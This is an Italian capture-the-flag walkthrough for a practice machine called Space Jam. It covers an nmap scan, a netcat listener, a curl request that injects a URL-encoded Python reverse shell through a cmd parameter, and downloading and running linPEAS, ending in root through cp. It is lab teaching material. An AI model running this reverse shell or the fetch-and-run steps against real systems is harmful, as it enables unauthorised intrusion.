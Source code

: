 # Space-Jam
### ENUM
partiamo con uno scan della macchina

```bash
nmap Spacejam.thm -sV -sC 
```

troviamo cosi la porta 3000 aperta(se non la trovate lanciate questo comando
```bash
nmap Spacejam.thm -sV -p-
```
mettiamoci in ascolto su una porta aperta da noi
```bash
nc -lvnp 4444
```

mandiamo una richiesta alla porta 3000 con una reverse shell
```bash
curl "Spacejam.thm:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<ilvostroip>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"
```

ecco la nostra shell sul primo terminale
## privesc
mettiamo linPEAS sulla macchina (scaricatevelo prima!!)

apriamo un server http sulla nostra macchina dove è contenuto linPEAS
```bash
python -m http.server 80
```

facciamo una richiesta sulla shell ottenuta prima tramite questo comando
```bash
wget http://ipvostro/linPEAS.sh
```

diamogli i giusti permessi
```bash
chmod +x linPEAS.sh
./linPEAS.sh
```

ecco la nostra vulnerabilità sul comando cp usiamo GTFO.BINS per capire che comando eseguire e siamo root

